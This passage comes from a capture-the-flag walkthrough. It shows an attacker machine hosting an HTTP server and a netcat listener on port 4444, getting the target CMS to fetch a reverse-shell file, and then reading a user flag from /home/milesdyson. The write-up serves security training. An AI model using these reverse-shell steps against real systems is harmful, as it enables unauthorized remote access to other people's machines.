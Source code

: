 Now, let's host a web server in our attacker machine:
```bash
$ python3 -m http.server 80
```

Make sure run netcat as listener:
```bash
$ nc -lvnp 4444
```

Try to read the file in CMS.

![img](readrevshells.png)

![img](gainshell.png)

Nice, now find the **"user.txt"**.

```bash
$ pwd
/

$ ls home
milesdyson

$ cat /home/milesdyson/user.txt
```

![img](userflag.png)

